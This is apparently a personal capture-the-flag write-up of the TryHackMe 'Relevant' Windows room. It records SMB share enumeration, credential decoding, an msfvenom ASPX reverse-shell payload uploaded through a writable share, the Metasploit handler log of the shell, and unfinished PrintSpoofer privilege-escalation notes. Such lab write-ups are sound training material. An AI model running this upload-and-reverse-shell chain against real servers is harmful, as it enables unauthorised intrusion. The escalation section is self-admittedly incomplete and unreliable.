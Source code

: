 
enumeration

![nmap scan screenshot ](https://github.com/ClearLotus-git/writeups/blob/main/TryHackMe/Relevant/screenshots/Screenshot%202025-05-28%20151506.png?raw=true)
![continued nmap screenshot](https://github.com/ClearLotus-git/writeups/blob/main/TryHackMe/Relevant/screenshots/Screenshot%202025-05-28%20152835.png?raw=true)

```
gobuster dir -u http://10.10.50.140 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x php,html,txt
```
![gobuster scan](https://github.com/ClearLotus-git/writeups/blob/main/TryHackMe/Relevant/screenshots/Screenshot%202025-05-28%20152608.png?raw=true)

smb

To show what was listed in the smb share.
```
smbclient -L \\\\10.10.50.140\\
```
```
smbclient  \\\\10.10.10.144\\nt4wrksv
```
![smb](https://github.com/ClearLotus-git/writeups/blob/main/TryHackMe/Relevant/screenshots/Screenshot%202025-05-28%20154052.png?raw=true)

The `get` command wasn't working. I added a destination for the passwds.txt
![smb transfer file](https://github.com/ClearLotus-git/writeups/blob/main/TryHackMe/Relevant/screenshots/Screenshot%202025-05-28%20154125.png?raw=true)


The strings needed to be decoded base64
![base64 -d](https://github.com/ClearLotus-git/writeups/blob/main/TryHackMe/Relevant/screenshots/Screenshot%202025-05-28%20154538.png?raw=true)

RCE vulnerability via an insecure file upload path that uses SMB shares as the storage backend.

For testing I tried to see if i could access the share through a browser. Seeing if 
I could put test.txt into the smb. In the smb share `put text.txt`
![text.txt in browser](https://github.com/ClearLotus-git/writeups/blob/main/TryHackMe/Relevant/screenshots/Screenshot%202025-05-28%20161907.png?raw=true)


make payload  (note check payload is the same in msfvenom and msfconsole)
.aspx files are Active Server Pages for .NET web applications (Microsoft IIS servers usually run these).
```
sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.137.19 LPORT=8910 -f aspx -o reverse1.aspx
```

in the smb share add   
```
put reverse.aspx
```
![aspx in smb](https://github.com/ClearLotus-git/writeups/blob/main/TryHackMe/Relevant/screenshots/Screenshot%202025-05-28%20155759.png?raw=true)





browser
```
http://10.10.10.144:49663/nt4wrksv/reverse.aspx
```
execute the browser and msfconsole (refresh browser)

```
msf6 exploit(multi/handler) > use exploit/multi/handler
[*] Using configured payload windows/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp
payload => windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.137.19
LHOST => 10.10.137.19
msf6 exploit(multi/handler) > set LPORT 8910
LPORT => 8910
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.137.19:8910 
[*] Command shell session 2 opened (10.10.137.19:8910 -> 10.10.10.144:49762) at 2025-05-28 21:24:48 +0100
```=

Shell Banner:
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
-----
          

c:\windows\system32\inetsrv>ls
ls
'ls' is not recognized as an internal or external command,
operable program or batch file.

c:\windows\system32\inetsrv>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\windows\system32\inetsrv
```
This is the image of the msf and the browser (note the browser has reverse1.aspx this 
should just be the payload file.. mine is different because intitial i wrote a bad payload 
so i changed the file name.. but use the same file as the payload and what is in the smb share)
![cmd and brownser screenshot](https://github.com/ClearLotus-git/writeups/raw/main/TryHackMe/Relevant/screenshots/Screenshot%202025-05-28%20162543.png)


msfshell

```
cd c:\Users\Bob\Desktop
```
open user.txt
![Screenshot](https://github.com/ClearLotus-git/writeups/raw/main/TryHackMe/Relevant/screenshots/Screenshot%202025-05-28%20162649.png)



---------------------->>>> priv escalation need to redo. <<<<<----------------- start here to see about exploit
i cant remember how i did it the first time 
Priv Escalation

```
whoami /priv
```
SeImpersonatePrivilege

location of the smb directory 
```
c:\inetpub\wwwroot\nt4wrksv
```
https://github.com/itm4n/PrintSpoofer

i can use metasploit for it. bg session 

```
search printspooler

use 4

sessions

set session 1

run

```
need to upgrade meterpreter shell 
```
use post/multi/manage/shell_to_meterpreter

set session 1

run
```
now need to run the printspooler again




#I couldnt get the smb share to copy the file over to my machine and still not sure of the error
